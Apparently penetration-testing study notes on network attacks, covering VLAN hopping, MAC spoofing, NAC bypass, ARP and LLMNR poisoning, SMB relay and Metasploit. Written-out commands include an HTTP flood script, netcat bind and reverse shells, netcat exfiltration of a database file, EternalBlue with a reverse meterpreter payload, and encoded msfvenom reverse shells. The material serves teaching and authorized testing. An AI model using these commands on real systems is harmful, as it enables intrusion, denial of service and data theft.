 
## Topic Overview
- **Focus:** Tools and techniques for network-layer attacks  
- **Goal:** Exploit network infrastructure for unauthorized access, data extraction, or disruption  

---

## Importance of Network Attacks
- Impact spans from physical/network devices to application interactions  
- Helps testers validate segmentation, authentication, and service hardening  

---

## Core Lessons & Techniques

### 1. Stress Testing
- **Purpose:** Push systems to their limits to identify DoS points of failure  
- **Load Types:**  
  - CPU (processor-bound loops)  
  - RAM (memory allocations)  
  - Network (packet storms, high-throughput streams)  
- **Scaling Approaches:**  
  - Vertical (↑ CPU, RAM on one server)  
  - Horizontal (add more servers/load balancers)  
- **Tools & Scripts:**  
  - **Python example** (HTTP flood):  
    ```python
    import requests, threading
    def flood(target):
        while True:
            try:
                requests.get(target)
            except:
                pass

    for i in range(100):
        t = threading.Thread(target=flood, args=("http://10.0.0.5/",))
        t.daemon = True
        t.start()

    input("Press Enter to stop…")
    ```  
    
  - **Open-source:** Grinder, Tsung  
  - **SaaS:** LoadView, Loader  

---

### 2. Bypassing Segmentation
- **Why:** Network segments limit blast radius of attacks  
- **Techniques:**  
  - **VLAN Hopping**  
    - *Switch Spoofing:* Present as 802.1Q trunk port  
    - *Double-Tagging:* Two VLAN tags, inner tag routes to victim VLAN  
  - **Multihomed Hosts**  
    - Devices on internal and DMZ segments—pivot points when compromised  
- **Demo Example:**  
  ```bash
  # Scan for inter-VLAN routes via Nmap
  nmap -Pn -p 1433 --traceroute 10.0.1.50
```

- **Mitigation:** Harden trunk configurations, disable auto-trunking

---

### 3. MAC Spoofing

- **Concept:** Forge your NIC’s MAC address to impersonate an allowed device
- **Common Uses:** Bypass MAC-allow lists, evade NAC
- **Commands:**
    
    - **Kali/Linux (macchanger)**
        ```bash
        sudo macchanger -m 00:11:22:33:44:55 eth0    # set specific MAC
        sudo macchanger -r eth0                     # random MAC
        ```

    - **macOS**        
        ```bash
        sudo ifconfig en0 ether 00:11:22:33:44:55
        ```

---

### 4. NAC Bypass

- **NAC Types:**
    - _Persistent agent_ (corp-owned devices)
    - _Non-persistent agent_ (guest-downloaded)
    - _Agentless_ (802.1X, DHCP binding)

- **Bypass Methods:**    
    - Use an already-compliant host as pivot
    - Spoof exempt device MAC (VoIP phone, printer)

---

### 5. Session-Based (On-Path) Attacks

- **Replay:** Capture & resend valid traffic (e.g., auth handshakes)    
- **Relay:** Proxy between client & server (modify in-flight data)
- **Common Techniques:**
    - **ARP Poisoning**
        ```bash
        arpspoof -i eth0 -t 10.0.0.10 10.0.0.1     # poison target’s ARP cache
        echo 1 > /proc/sys/net/ipv4/ip_forward      # enable IP forwarding
        ```
        
    - **LLMNR/NBT-NS Poisoning** (Responder)
        ```bash
        responder -I eth0 -w -r
        ```
        
    - **DNS Spoofing** (dnschef, mitmproxy)

---

### 6. Service Exploitation

- **Certificate Services Attacks:** MD5 collision to spoof certs
- **Misconfigured Services:**
    - Directory listings → `http://10.0.0.5/backups/`
    - SMB shares →
        ```bash
        smbclient -L //10.0.0.5 -U guest        # list shares
        smbclient //10.0.0.5/secrets -U guest  # connect and download
        ```

---

### 7. Packet Crafting

- **Purpose:** Test firewalls / IDS / protocol implementations
- **Tools:** Scapy, Hping, Impacket
- **Scapy Demo (TCP SYN):**
    
    ```python
    from scapy.all import *
    pkt = IP(dst="10.0.0.5")/TCP(dport=22, flags="S")
    send(pkt)
    ```
    
- **SMB Relay (Impacket):**
    ```bash
    ntlmrelayx.py -t smb://10.0.0.5 -smb2support
    ```

---

### 8. Netcat (“Swiss-Army Knife”)

- **Bind Shell (victim listens):**
    ```bash
    # On victim:
    nc -l -p 4444 -e /bin/bash
    # On attacker:
    nc 10.0.0.5 4444
    ```

- **Reverse Shell (victim connects):**    
    ```bash
    # On attacker:
    nc -l -p 4444
    # On victim:
    nc 10.0.0.5 4444 -e /bin/bash
    ```

- **Data Exfiltration:**    
    ```bash
    # Attacker: listen on DNS port
    nc -l -p 53 > stolen.db
    # Victim: exfiltrate file
    nc 10.0.0.2 53 < backup.db
    ```    

---

### 9. Default Credentials

- **Risk:** Unchanged factory passwords → instant takeover
- **Scan & Test:**
    ```bash
    nmap --script default-credentials -p 22,80,443 10.0.0.0/24
    ```
- **Tools:** Hydra, Medusa for automated brute forcing

---

### 10. Metasploit & msfvenom

- **Metasploit Framework:**
    - Exploit modules, payloads, auxiliary scanners
    - **Example:**        
        ```bash
        msfconsole
        use exploit/windows/smb/ms17_010_eternalblue
        set RHOST 10.0.0.5
        set PAYLOAD windows/x64/meterpreter/reverse_tcp
        set LHOST 10.1.1.2
        exploit
        ```

- **msfvenom (payload gen):**    
    ```bash
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.1.1.2 LPORT=4444 \
             -f elf -o shell.elf
    ```

- **Encoding (Shikata Ga Nai):**    
    ```bash
    msfvenom -p cmd/unix/reverse_python LHOST=10.1.1.2 LPORT=4444 \
             -e x86/shikata_ga_nai -i 5 -f raw > payload.py
    ```
